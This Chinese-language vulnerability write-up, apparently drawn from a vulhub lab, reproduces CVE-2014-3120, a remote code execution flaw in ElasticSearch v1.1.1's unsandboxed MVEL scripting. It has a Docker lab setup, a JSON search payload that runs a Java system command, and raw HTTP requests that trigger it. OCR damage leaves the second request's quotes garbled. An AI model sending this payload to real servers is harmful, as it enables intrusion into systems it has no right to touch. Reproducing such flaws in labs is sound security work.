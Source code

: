 ```yaml
---
title: （CVE-2014-3120）ElasticSearch 命令执行漏洞
id: zhfly2902
---
```


# （CVE-2014-3120）ElasticSearch 命令执行漏洞

## 一、漏洞简介

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

## 二、漏洞影响

elasticsearch版本：v1.1.1

## 三、复现过程

编译及运行环境：

```
docker-compose build
docker-compose up -d 
```

将Java代码放入json中：

```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  } 
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `{

“name”: “phithon”

}` 
```

然后，执行任意代码：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343 `{

“size”: 1,

“query”: {

“filtered”: {

“query”: {

“match_all”: {

}

}

}

},

“script_fields”: {

“command”: {

“script”: “import [java.io](http://java.io).*;new java.util.Scanner(Runtime.getRuntime().exec(“id”).getInputStream()).useDelimiter(”\\A").next();"

}

}

}` 
```

结果如图：

![image](../img/9b42a356565d56b96d1eec001c3dcc38.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/